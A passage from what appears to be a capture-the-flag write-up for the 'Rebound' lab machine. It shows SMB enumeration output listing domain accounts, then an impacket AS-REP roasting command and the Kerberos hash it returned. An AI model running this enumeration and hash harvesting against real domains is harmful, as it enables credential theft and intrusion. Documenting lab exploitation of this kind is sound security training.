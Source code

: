 ```
SMB         rebound.htb     445    DC01             520: rebound\Group Policy Creator Owners (SidTypeGroup)                                                                               
SMB         rebound.htb     445    DC01             521: rebound\Read-only Domain Controllers (SidTypeGroup)                                                                              
SMB         rebound.htb     445    DC01             522: rebound\Cloneable Domain Controllers (SidTypeGroup)                                                                              
SMB         rebound.htb     445    DC01             525: rebound\Protected Users (SidTypeGroup)                                                                                           
SMB         rebound.htb     445    DC01             526: rebound\Key Admins (SidTypeGroup)
SMB         rebound.htb     445    DC01             527: rebound\Enterprise Key Admins (SidTypeGroup)                                                                                     
SMB         rebound.htb     445    DC01             553: rebound\RAS and IAS Servers (SidTypeAlias)                                                                                       
SMB         rebound.htb     445    DC01             571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)                                                                   
SMB         rebound.htb     445    DC01             572: rebound\Denied RODC Password Replication Group (SidTypeAlias)                                                                    
SMB         rebound.htb     445    DC01             1000: rebound\DC01$ (SidTypeUser)
SMB         rebound.htb     445    DC01             1101: rebound\DnsAdmins (SidTypeAlias)
SMB         rebound.htb     445    DC01             1102: rebound\DnsUpdateProxy (SidTypeGroup)                                                                                           
SMB         rebound.htb     445    DC01             1951: rebound\ppaul (SidTypeUser)
SMB         rebound.htb     445    DC01             2952: rebound\llune (SidTypeUser)
SMB         rebound.htb     445    DC01             3382: rebound\fflock (SidTypeUser)
SMB         rebound.htb     445    DC01             5277: rebound\jjones (SidTypeUser)
SMB         rebound.htb     445    DC01             5569: rebound\mmalone (SidTypeUser)
SMB         rebound.htb     445    DC01             5680: rebound\nnoon (SidTypeUser)
SMB         rebound.htb     445    DC01             7681: rebound\ldap_monitor (SidTypeUser)
SMB         rebound.htb     445    DC01             7682: rebound\oorend (SidTypeUser)
SMB         rebound.htb     445    DC01             7683: rebound\ServiceMgmt (SidTypeGroup)
SMB         rebound.htb     445    DC01             7684: rebound\winrm_svc (SidTypeUser)
SMB         rebound.htb     445    DC01             7685: rebound\batch_runner (SidTypeUser)
SMB         rebound.htb     445    DC01             7686: rebound\tbrady (SidTypeUser)
SMB         rebound.htb     445    DC01             7687: rebound\delegator$ (SidTypeUser)
```

Lots of users and groups, but most importantly we have some users. With a username list, we can try AS-REP Roasting without credentials.&#x20;

{% code overflow="wrap" %}
```
$ impacket-GetNPUsers -request -usersfile users.txt -dc-ip dc01.rebound.htb rebound.htb/
$krb5asrep$23$jjones@REBOUND.HTB:f5cb26a6a085535088c973a3cd42eaa0$1fff50bbcd21154e94b1b193ef38d5b1a552ca9b2ca2b601c1674db240ae8f8500181cf6112f43ce2b2ced4e9f62d7a6818ddd06e30e6d76ad3ffde8808a0fb8fafbb1222b2fe403e9e3f4ee5c1c04eefae8fadd17a950e7a7aec6ca4f77d902396462183d963f6aab8a269a31f5c25dbffc9e48a265a5f973e4da1e42824c3670ae65a44cd3cac57e0ce500ac3d85effa45dc1c8ae88b3189f81fbd75ac94ccadc62b2f8acca9bce3917c3e9f18f9188707e18c717cdb20f0c3add2ca7b46013d42a2194a5fd9c60eac695c4f335fece76078bd34f4bcdd29a7414c4913154d52da57343ce710427a14
```
{% endcode %}

However, this hash cannot be cracked for some reason.&#x20;

